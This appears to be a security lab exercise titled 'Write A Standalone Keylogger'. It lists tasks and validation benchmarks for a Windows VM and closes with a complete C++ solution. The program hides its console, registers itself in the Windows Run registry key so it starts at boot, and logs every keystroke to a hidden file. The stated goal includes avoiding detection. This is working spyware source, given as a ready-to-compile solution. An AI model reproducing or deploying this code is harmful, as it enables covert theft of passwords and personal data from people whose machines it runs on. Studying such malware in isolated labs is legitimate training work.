 # Write A Standalone Keylogger
A keylogger is a type of malware used in cyberattacks to steal sensitive information by recording keystrokes on a victim's computer. Often installed covertly through phishing emails, it captures login credentials and personal data for attackers to misuse


## References
- [Keystroke Logging](https://en.wikipedia.org/wiki/Keystroke_logging) by Wikipedia
- [GetAsyncKeyState](https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-getasynckeystate) by Microsoft
- [Keylogger](https://github.com/shubhangi-singh21/Keylogger) by shubhangi-singh21 on GitHub


## Tasks
- Setup a Windows VM
- Write a custom keylogger program with the following capabilities
  - The program starts executing when the system boots
  - The program runs as a background process without affecting any foreground processes
  - The program logs all user keystrokes in hidden files on the same disk
  - The program must use minimal resources to avoid detection
- Keylogger Creation Guidelines
  - You can use Windows APIs in your program
  - Use a programming language of your choice
  - Compile the program into a binary for deployment
- Deploy the keylogger binary in your VM
- Configure the keylogger to execute when the system starts
- Open a web browser and input a fictional username and password into a login form


## Benchmarks
- Validate that your keylogger starts at system boot time
- Validate that your keylogger records all keystrokes in hidden files
- Validate that your keylogger runs as a background process (you can view the active process listing in 'Task Manager')


## Solutions With Scripts
1. Save the following C++ program and compile it
   ```
    #include <iostream>
    #include <windows.h>
    
    using namespace std;
    
    int Save(int _key, char *file);
    
    void AddToStartup() {
        char filePath[MAX_PATH];
        GetModuleFileName(NULL, filePath, MAX_PATH);
        HKEY hKey;
        RegOpenKey(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
        RegSetValueEx(hKey, "MyKeylogger", 0, REG_SZ, (BYTE*)filePath, strlen(filePath) + 1);
        RegCloseKey(hKey);
    }
    
    void HideLogFile() {
        SetFileAttributes("log.txt", FILE_ATTRIBUTE_HIDDEN);
    }
    
    int main() {
        FreeConsole();
        AddToStartup();
        HideLogFile();
    
        char i;
        while (true) {
            Sleep(10);
            for (i = 8; i <= 255; i++) {
                if (GetAsyncKeyState(i) == -32767) {
                    Save(i, "log.txt");
                }
            }
        }
        return 0;
    }
    
    int Save(int _key, char *file) {
        FILE *OUTPUT_FILE;
        OUTPUT_FILE = fopen(file, "a+");
        switch (_key) {
            case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]"); break;
            case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]"); break;
            case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]"); break;
            case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]"); break;
            case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]"); break;
            case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]"); break;
            case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]"); break;
            case VK_CONTROL: fprintf(OUTPUT_FILE, "[CTRL]"); break;
            case VK_MENU: fprintf(OUTPUT_FILE, "[ALT]"); break;
            case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS LOCK]"); break;
            case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]"); break;
        }
        fprintf(OUTPUT_FILE, "%s", &_key);
        fclose(OUTPUT_FILE);
        return 0;
    }
   ```
